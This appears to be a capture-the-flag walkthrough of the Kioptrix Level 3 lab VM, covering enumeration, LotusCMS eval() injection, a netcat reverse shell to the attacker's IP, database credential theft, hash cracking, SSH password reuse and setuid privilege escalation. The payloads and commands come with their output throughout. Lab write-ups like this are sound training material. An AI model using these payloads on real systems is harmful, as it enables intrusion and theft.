





Let’s take a look at the level 3 of Kioptrix series. This level is a little more tricky than previous two. I’ll show one of two possible solutions for this challenge and just comment the second solution at the end.
Again, this VM can be found at Kioptrix webpage.
Let’s get started scanning my network range to discover the Kioptrix level 3 VM:
root@kali:~# nmap -sn 192.168.3.0/24
Starting Nmap 7.50 ( https://nmap.org ) at 2017-07-28 00:41 EDT
<-- omitted information -->
Nmap scan report for 192.168.3.92
Host is up (-0.20s latency).
MAC Address: 00:0C:29:9C:A7:C9 (VMware)
<-- omitted information -->
Nmap done: 256 IP addresses (7 hosts up) scanned in 31.66 seconds
Once I discovered the address of Kioptrix is mapped to “192.168.3.92” on my network, I can enumerate your running services using nmap again:
root@roarrr:/Users/ferreirasc$nmap -sS -sC -sV -Pn -n 192.168.3.92
Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-29 19:16 -03
Nmap scan report for kioptrix3.com (192.168.3.92)
Host is up (0.0058s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
| 1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_ 2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:9C:A7:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
Ok, we have two services running: SSH server and a web server listening on port 80 with the HTTP-title “Ligoat Security - Got Goat? Security”. Apparently, there is no problem with the service versions. Let’s take a look at this webpage:
It’s a blog with some posts, including an interesting post that refers to “new lead programmer” called “loneferret”. This leads me to believe that this one could be a valid username somewhere in the application. Navigating by the website, I discovered a login page revealing that the application could have been built using a Lotus CMS (which has multiple vulnerabilities, according to exploit-db :-P ) :
I decided to do a little more enumeration, this time, using dirb to fuzzing directories and wig to discover details of the web application:
Dirb:
root@kali:~# dirb http://192.168.3.92/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Jul 28 00:48:38 2017
URL_BASE: http://192.168.3.92/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.3.92/ ----
==> DIRECTORY: http://192.168.3.92/cache/
==> DIRECTORY: http://192.168.3.92/core/
+ http://192.168.3.92/data (CODE:403|SIZE:323)
+ http://192.168.3.92/favicon.ico (CODE:200|SIZE:23126)
==> DIRECTORY: http://192.168.3.92/gallery/
+ http://192.168.3.92/index.php (CODE:200|SIZE:1819)
==> DIRECTORY: http://192.168.3.92/modules/
==> DIRECTORY: http://192.168.3.92/phpmyadmin/
+ http://192.168.3.92/server-status (CODE:403|SIZE:332)
==> DIRECTORY: http://192.168.3.92/style/
<----- a lot of omitted informations... ----->
Wig:
ferreirasc@roarrr:~/pentest/web/identify-cms/wig$wig http://192.168.3.92/
wig - WebApp Information Gatherer
Scanning http://192.168.3.92/...
___________________________________________ SITE INFO ____________________________________________
IP Title
192.168.3.92 Ligoat Security - Got Goat? Security ...
____________________________________________ VERSION _____________________________________________
Name Versions Type
phpMyAdmin 2.11.3 CMS
Apache 2.2.8 Platform
PHP 5.2.4-2ubuntu5.6 Platform
suhosin-patch Platform
with Platform
Ubuntu 8.04 OS
__________________________________________ INTERESTING ___________________________________________
URL Note Type
/phpmyadmin/ PHPMyAdmin page Interesting
/phpmyadmin/Documentation.html phpMyAdmin Documentation page Interesting
________________________________________ VULNERABILITIES _________________________________________
Affected #Vulns Link
phpMyAdmin 2.11.3 16 http://cvedetails.com/version/52820
__________________________________________________________________________________________________
Time: 6.1 sec Urls: 412 Fingerprints: 40401
Ok, some listable directories revealing modules, plugins (probably of LotusCMS) and a phpmyadmin 2.11.3 running on backend of application. Good, now we know that a MySQL dbms is running at the VM in localhost.
A quick search on google with the dork “lotuscms exploit-db” reveals a lot of vulnerabilities of this CMS in your 3.0 version. Including an existing exploit in metasploit to take advantage of eval() in the application through of “page” variable on URI “index.php?page=index”. I really don’t know if the CMS is in your 3.0 version, but it doesn’t hurt to try :D
For this walkthrough, I’m going to avoid the metasploit-fu. Searching a little more for this vulnerability on Google, I discovered that the vulnerability (or one of them) is in the php file core/lib/router.php:
//If there is a request for a plugin
if(file_exists("core/plugs/".$plugin."Starter.php")){
//Include Page fetcher
include("core/plugs/".$plugin."Starter.php");
//Fetch the page and get over loading cache etc...
eval("new ".$plugin."Starter('".$page."');");
}
The variable “page” is being passed to a eval() call without any sanitization. We can take advantage of this exploring the page variable and allowing remote code execution (RCE) in the application. If we input “ index’);system(‘id’);# “, this will be passed to the application like:
//If there is a request for a plugin
if(file_exists("core/plugs/".$plugin."Starter.php")){
//Include Page fetcher
include("core/plugs/".$plugin."Starter.php");
//Fetch the page and get over loading cache etc...
eval("new ".$plugin."Starter('index');system('id');#');");
}
If the vulnerability is present and if everything works fine, an “id” information will be showed in the page. Let’s check it out:
Great! I’ve a RCE. Time to reverse shell.
Let’s input “ index’);system(‘nc <attacker_ip> -e /bin/sh’);# “ to connect-back the webapp on my listener:
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
192.168.3.92: inverse host lookup failed: Unknown host
connect to [192.168.3.91] from (UNKNOWN) [192.168.3.92] 42590
python -c 'import pty;pty.spawn("/bin/bash");'
www-data@Kioptrix3:/home/www/kioptrix3.com$
As seen above, I needed to “upgrade” my shell for a PTY (pseudo-terminal) version using python. This is not at all like a complete and all-powerful TTY, but it helps. You can see more techniques to upgrade simple shells here. Knowing these techniques can be very useful in a pentest.
Now, knowing that the web application communicates with a database in backend, I decided to discover the login and password for access this one. I will recursively search for the string “pass” from this directory using a grep command:
www-data@Kioptrix3:/home/www/kioptrix3.com$ls -lah
total 92K
drwxr-xr-x 8 root root 4.0K 2011-04-15 16:24 .
drwxr-xr-x 3 root root 4.0K 2011-04-12 11:58 ..
drwxrwxrwx 2 root root 4.0K 2011-04-15 09:21 cache
drwxrwxrwx 8 root root 4.0K 2011-04-14 12:23 core
drwxrwxrwx 8 root root 4.0K 2011-04-14 12:23 data
-rw-r--r-- 1 root root 23K 2009-06-05 15:22 favicon.ico
drwxr-xr-x 7 root root 4.0K 2011-04-14 11:32 gallery
-rw-r--r-- 1 root root 26K 2007-01-21 18:36 gnu-lgpl.txt
-rw-r--r-- 1 root root 399 2011-02-23 13:29 index.php
drwxrwxrwx 10 root root 4.0K 2011-04-14 12:23 modules
drwxrwxrwx 3 root root 4.0K 2011-04-14 12:23 style
-rw-r--r-- 1 root root 243 2010-08-05 19:39 update.php
www-data@Kioptrix3:/home/www/kioptrix3.com$grep -ir "pass" .
<--- a lot of omitted information --->
grep: ./gallery/scopbin/911006.php.save: Permission denied
./gallery/gconfig.php: $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
./gallery/gconfig.php:if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
<--- a lot of omitted information --->
www-data@Kioptrix3:/home/www/kioptrix3.com$cat gallery/gconfig.php
<--- a lot of omitted information --->
// Installer Details -----------------------------------------------
// Enter the full HTTP path to your Gallarific folder below,
// such as http://www.yoursite.com/gallery
// Do NOT include a trailing forward slash
$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
<--- a lot of omitted information --->
Ok, now we have root access on “gallery” database with the password “fuckeyou” (lol). Let’s try to connect:
www-data@Kioptrix3:/home/www/kioptrix3.com$mysql -u root -D gallery -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
mysql> show tables;
+----------------------+
| Tables_in_gallery |
+----------------------+
| dev_accounts |
| gallarific_comments |
| gallarific_galleries |
| gallarific_photos |
| gallarific_settings |
| gallarific_stats |
| gallarific_users |
+----------------------+
7 rows in set (0.00 sec)
mysql>select * from dev_accounts;
+----+------------+----------------------------------+
| id | username | password |
+----+------------+----------------------------------+
| 1 | dreg | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
2 rows in set (0.01 sec)
The gallery database has two developer accounts: “dreg” and “lone ferret” (remember him?). Let’s see if john can crack these hashes:
ferreirasc@roarrr:~$echo -e 'dreg:0d3eccfb887aabd50f243b3f155c0f85\x10loneferret:5badcaf789d3d1d09794d8f021f40f0e' > /tmp/hashes
ferreirasc@roarrr:~$john /tmp/hashes --format=raw-md5
Created directory: /Users/ferreirasc/.john
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars (loneferret)
1g 0:00:00:36 3/3 0.02712g/s 7830Kp/s 7830Kc/s 7830KC/s bkrkki..bkrk50
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
John was able to crack the “loneferret” password (starwars), but took a lot of time to try breaking “dreg” password. No problem, Google told me that your password is “Mast3r”. Looking at the file “/etc/passwd”, I figured out that the system also has “loneferret” and “dreg” as users, maybe they use the same password on it. Let’s try logging onto the server as loneferret using ssh:
ferreirasc@roarrr:~$ssh loneferret@192.168.3.92
loneferret@192.168.3.93's password:
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sun Jul 30 15:38:15 2017 from 192.168.3.27
loneferret@Kioptrix3:~$id
uid=1000(loneferret) gid=100(users) groups=100(users)
I’m in on “loneferret”. Navigating by your home directory, we will see a file called “CompanyPolicy.README” with the message:
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.
DG
CEO
As said, the “ht” software (by the way, a good software for editing binaries) apparently can be executed with root privileges.
loneferret@Kioptrix3:~$ls -lah `which ht`
-rwsr-sr-x 1 root root 2.0M 2011-04-16 07:26 /usr/local/bin/ht
loneferret@Kioptrix3:~$ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$export TERM=xterm
A setuid flag allows me to run an executable with the permissions of the executable’s owner, in this case, root. So, I can take advantage of the ht binary to edit something like a sudoers file (or /etc/shadow, create a cron, so on) to get root on the system.
Adding all privileges to loneferret:
Finally, I got root on the system:
loneferret@Kioptrix3:~$ sudo su
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
Second solution
There is a SQL injection vulnerability with the Kioptrix3 gallery that can be exploited by the parameter “id” at URI “gallery/gallery.php?id=1”.
I can logging in the application with the users discovered by the database and upload a embedded php in an image to invoking a reverse shell to my machine.
comments powered by Disqus